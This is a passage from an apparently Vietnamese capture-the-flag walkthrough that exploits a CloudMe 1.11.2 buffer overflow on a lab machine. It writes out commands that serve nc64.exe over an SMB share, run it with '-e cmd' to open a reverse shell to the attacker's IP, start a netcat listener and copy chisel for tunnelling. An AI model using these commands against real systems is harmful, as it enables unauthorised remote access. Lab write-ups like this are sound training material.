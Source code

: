 thay payload trên vào [CloudMe 1.11.2 - Buffer Overflow (PoC) - Windows remote Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/48389)

![https://lh7-us.googleusercontent.com/V6nZ1UMeCBYx9rmsbj2lobYdkR0DiLmdiDmUP5Cci-RRPY7uXYc1EeYpZthrG3qddadSfFRSFwYg7eXEFHiFZqKqeb3lMCrK_IfvMPY18A5wrQvPfJaQPkjFHgiIuKUyAXH8Q_ucZO7n](https://lh7-us.googleusercontent.com/V6nZ1UMeCBYx9rmsbj2lobYdkR0DiLmdiDmUP5Cci-RRPY7uXYc1EeYpZthrG3qddadSfFRSFwYg7eXEFHiFZqKqeb3lMCrK_IfvMPY18A5wrQvPfJaQPkjFHgiIuKUyAXH8Q_ucZO7n)

thực thi poc và nc

![https://lh7-us.googleusercontent.com/PxvHlWAqjlcG7uICmZ4yW0kKC0is62osgFL6sBf9OGyhtH8j-Pw51BOw01oxc74Z9iu_9wZTYTj3_y4q08DYub3lz-pYHoFUb75rEECU2rzY8w82dMunLH-dZ8wdPzEqyRPqS8PdaN9f](https://lh7-us.googleusercontent.com/PxvHlWAqjlcG7uICmZ4yW0kKC0is62osgFL6sBf9OGyhtH8j-Pw51BOw01oxc74Z9iu_9wZTYTj3_y4q08DYub3lz-pYHoFUb75rEECU2rzY8w82dMunLH-dZ8wdPzEqyRPqS8PdaN9f)

![https://lh7-us.googleusercontent.com/0B6ts7mps6HYxCpHrDAof11KoVyjnsJJC8XYwiylP9Dqthvb45wXY4iwqcoQ9CHpnjvXNryVBrMF84DwCUE18LnUWl2M1QSv_9ktmFgge0LIZ3sM9Q0lEZz7-2XOuPJYWg89ss2t78ub](https://lh7-us.googleusercontent.com/0B6ts7mps6HYxCpHrDAof11KoVyjnsJJC8XYwiylP9Dqthvb45wXY4iwqcoQ9CHpnjvXNryVBrMF84DwCUE18LnUWl2M1QSv_9ktmFgge0LIZ3sM9Q0lEZz7-2XOuPJYWg89ss2t78ub)

**c2:** sử dụng smbserver , gửi nc64 để có được shell của windows

kali: smbserver.py share . -smb2support -username df -password df

windows:

map share from buff: net use \\10.10.14.21\share /u:df df

\\10.10.14.21\share\nc64.exe 10.10.14.21 4449 -e cmd

![https://lh7-us.googleusercontent.com/qNnjSzg3bSneePxU-0PUEP3TJ7XGfVlkW4gQczKYq83pyz3VTqitXk2UZpWBnO-BIBSYQc4ZK87E9GiRyheXqH1cxkWpv_rJ1hHrYQzaKXv7ydMwB2Kc2WZsdjhkNZw2SUZE3fqs5Jpn](https://lh7-us.googleusercontent.com/qNnjSzg3bSneePxU-0PUEP3TJ7XGfVlkW4gQczKYq83pyz3VTqitXk2UZpWBnO-BIBSYQc4ZK87E9GiRyheXqH1cxkWpv_rJ1hHrYQzaKXv7ydMwB2Kc2WZsdjhkNZw2SUZE3fqs5Jpn)

![https://lh7-us.googleusercontent.com/oe61zIC9HYtpI1xqshLTF7l-TRN4UYb03NnPk6CRCiZS9_m6pZ3DFvGyyjHKK7EOjYA5z7F2nOQ04C-UKWrsN4zc1-YaDWas7lSzXl0cVdEsSItXZ_bSzxj5n-1EXHuN6vxTNhu0wsKY](https://lh7-us.googleusercontent.com/oe61zIC9HYtpI1xqshLTF7l-TRN4UYb03NnPk6CRCiZS9_m6pZ3DFvGyyjHKK7EOjYA5z7F2nOQ04C-UKWrsN4zc1-YaDWas7lSzXl0cVdEsSItXZ_bSzxj5n-1EXHuN6vxTNhu0wsKY)

kali: nc -lnvp 4449

![https://lh7-us.googleusercontent.com/5HzeCbRZnWKXB6JiyCmqoeugKU-jl9TRPCoOjlwNPmMEUrlLLAJSWZC7ip8amcjcZddzLL_CMuEFmgky29Q--cW2fTfQ47QQ5kSirULboVpMmcYA1FkJo0Fv0YJGAk1PeIRzNuG41lJ1](https://lh7-us.googleusercontent.com/5HzeCbRZnWKXB6JiyCmqoeugKU-jl9TRPCoOjlwNPmMEUrlLLAJSWZC7ip8amcjcZddzLL_CMuEFmgky29Q--cW2fTfQ47QQ5kSirULboVpMmcYA1FkJo0Fv0YJGAk1PeIRzNuG41lJ1)

![https://lh7-us.googleusercontent.com/7KkWP0Lpxc65UlOD3SsOeJG9hnrqnE7Kmub4bLvhsQmVCqDPIezP4wdPHgsAbCdONwJy3F4wMFIknXyWrwEtlcyVWe5adEhBXKKpmeVovkt2J0cqOfNGCmZUpIcAEzZN2CREIlC6Z1PG](https://lh7-us.googleusercontent.com/7KkWP0Lpxc65UlOD3SsOeJG9hnrqnE7Kmub4bLvhsQmVCqDPIezP4wdPHgsAbCdONwJy3F4wMFIknXyWrwEtlcyVWe5adEhBXKKpmeVovkt2J0cqOfNGCmZUpIcAEzZN2CREIlC6Z1PG)

![https://lh7-us.googleusercontent.com/VYsJhgPLZRJxK6PXLcUWiEbzmhf47-uJdUI7thYM63kmAefmK47UaU28gvWyhTczJpnullFznr0kIZMe09oHzoExdFPfOwdfRZ1irJVUoKDDNZ8wi5H14Le0CPIAs_2-jvGvF64Aog3h](https://lh7-us.googleusercontent.com/VYsJhgPLZRJxK6PXLcUWiEbzmhf47-uJdUI7thYM63kmAefmK47UaU28gvWyhTczJpnullFznr0kIZMe09oHzoExdFPfOwdfRZ1irJVUoKDDNZ8wi5H14Le0CPIAs_2-jvGvF64Aog3h)

![https://lh7-us.googleusercontent.com/M5epLfpqn2NOwlmyU2yqV17BKap5bjlzzWa_3Mchbq9gy9w7wvBYlO39xLARFoOXJ8XPWxa78nCfwADn6S29W2971k9kLyGPcHdLinXM0BqhMpqSlamtyYKJbVoQcoteY5r_-4xvEON0](https://lh7-us.googleusercontent.com/M5epLfpqn2NOwlmyU2yqV17BKap5bjlzzWa_3Mchbq9gy9w7wvBYlO39xLARFoOXJ8XPWxa78nCfwADn6S29W2971k9kLyGPcHdLinXM0BqhMpqSlamtyYKJbVoQcoteY5r_-4xvEON0)

copy \\10.10.14.21\share\chisel.exe